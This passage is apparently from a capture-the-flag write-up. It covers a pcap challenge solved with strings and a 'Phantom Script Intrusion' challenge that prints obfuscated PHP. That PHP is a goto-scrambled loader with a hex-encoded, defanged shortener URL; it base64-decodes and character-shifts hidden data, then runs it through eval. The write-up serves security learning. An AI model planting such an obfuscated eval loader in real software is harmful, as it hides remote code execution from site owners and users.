 We are given a pcap file. Though we can analyze the PCAP file, using wireshark, but just doing strings gave us the flag 🫠
![flag](/images/heist_flag.png)


### Phantom Script Intrusion
{: style="color: #faf5ab;"}

![desc](/images/phantom_desc.png)

We are given obfuscated PHP code - 
```php
<?php
 goto Ls6vZ; apeWK: ${"\x76\141\x72\61"} = str_rot13("\x24\x7b\x22\134\x78\x34\x37\134\x78\x34\143\x5c\x78\64\x66\x5c\170\x34\x32\134\x78\64\61\x5c\170\x34\x63\134\x78\x35\x33\42\x7d"); goto G9fZX; Ls6vZ: ${"\x47\x4c\x4f\x42\101\114\123"} = "\150\x58\x58\x70\x73\72\x2f\57\163\150\x30\162\164\x75\x72\x6c\56\x61\164\x2f\x73\x31\146\x57\62"; goto apeWK; XT2kv: if (strlen(${"\x76\141\x72\x32"}) > 0) { ${"\166\x61\x72\x33"} = ${"\x76\x61\x72\x32"}; } else { ${"\166\141\x72\63"} = ''; } goto ZYamk; V2P3O: foreach (str_split(${"\166\141\x72\x33"}) as ${"\166\x61\x72\x35"}) { ${"\166\141\162\x34"} .= chr(ord(${"\166\141\162\65"}) - 1); } goto Ly_yq; G9fZX: ${"\x76\141\162\x32"} = base64_decode(${${"\166\x61\162\x31"}}); goto XT2kv; Ly_yq: eval(${${"\x76\x61\x72\x34"}}); goto IFMxz; ZYamk: ${"\166\141\162\64"} = ''; goto V2P3O; IFMxz: ?> 
```
We can try to deobfuscate the PHP code, manually as it is pretty much understandable.